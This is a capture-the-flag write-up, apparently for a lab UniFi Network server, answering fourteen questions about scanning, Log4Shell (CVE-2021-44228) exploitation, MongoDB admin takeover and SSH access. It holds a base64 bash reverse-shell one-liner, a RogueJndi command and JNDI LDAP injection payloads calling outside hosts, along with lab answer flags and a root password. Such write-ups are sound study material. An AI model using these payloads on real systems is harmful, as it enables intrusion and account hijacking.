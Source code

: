 
Q1: Which are the first four open ports?

A: 22, 6789, 8080, 8443

Scan with nmap with -sV flag.

![](../../Img/Pasted%20image%2020250424150410.png)

Q2: What is the title of the software that is running running on port 8443?

A: UniFi Network

I had to run the scan again with the -sC flag
![](../../Img/Pasted%20image%2020250424151327.png)

Q3: What is the version of the software that is running?

A: 6.4.54

There wasn't version number in the scan, so digging around i went to the web page of this service (on port 8443) and got this.
![](../../Img/Pasted%20image%2020250424151922.png)

Q4: What is the CVE for the identified vulnerability?

A: CVE-2021-44228

Googling aroudn i found this github repo (https://github.com/puzzlepeaches/Log4jUnifi) that had the answer.

Q5: What protocol does JNDI leverage in the injection?

A: LDAP

Looking at that cve we get it.
![](../../Img/Pasted%20image%2020250424153434.png)

Q6: What tool do we use to intercept the traffic, indicating the attack was successful?

A: tcpdump

It's just the tool for that.

Q7: What port do we need to inspect intercepted traffic for?

A: 389

It looks like ldap traffic goes to port 389
![](../../Img/Pasted%20image%2020250424155244.png)


Q8: What port is the MongoDB service running on?

A: 27117

So, according to this article (https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) in the remember parameter goes a payload ("${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\"), but as i'm not using that tool (dnslog.cn) i just use my ip and tcpdump
I get an error
![](../../Img/Pasted%20image%2020250424160606.png)
but also a connection
![](../../Img/Pasted%20image%2020250424160627.png)
With this command we can encrypt the payload for the jndi echo 'bash -c bash -i >&/dev/tcp/{ip}/3333 0>&1' | base64
We insert that payload in the command for starting the jndi sv java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTU3LzMzMzMgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.15.157"
![](../../Img/Pasted%20image%2020250424162840.png)
in burp suite we replace the payload form the remember parameter with our new jdni port (${jndi:ldap://10.10.15.157/:1389/o=tomcat})
we get the connection
![](../../Img/Pasted%20image%2020250424163652.png)
Upgrade it (script /dev/null -c bash)
Now finally for the question let's check if mongo is running (ps aux | grep mongo)
![](../../Img/Pasted%20image%2020250424163929.png)

Q9: What is the default database name for UniFi applications?

A:  ace

Before i had the genius ground breaking idea of just Googling it i connected to the mongo instance and listed the db
![](../../Img/Pasted%20image%2020250424164412.png)
![](../../Img/Pasted%20image%2020250424164226.png)

Q10: What is the function we use to enumerate users within the database in MongoDB?

A: db.admin.find()

This doesn't seem to me like a just find user command, db.getUsers() seems like the answer (https://www.prisma.io/dataguide/mongodb/configuring-mongodb-user-accounts-and-authentication)

Q11: What is the function we use to update users within the database in MongoDB?

A: db.admin.update()

Following the trend here, i got no problem with this one .

Q12: What is the password for the root user?

A: NotACrackablePassword4U2022

I Chose the Shadow Admin method from the article. I created a pswd (qweqwe12345), sha-512 it, replace the one the admin had with (db.admin.update())
and just log in
![](../../Img/Pasted%20image%2020250424170005.png)
Now, in the Steal SSH Creds it says how to get the answer
![](../../Img/Pasted%20image%2020250424170142.png)

Q13: Submit user flag

A: 6ced1a6a89e666c0620cdb10262ba127

shh into it 
![](../../Img/Pasted%20image%2020250424170310.png)
go find it

![](../../Img/Pasted%20image%2020250424170542.png)

Q14: Submit root flag

A: e50bc93c75b634e4b272d2f771c33681

Look for it 
![](../../Img/Pasted%20image%2020250424170430.png)



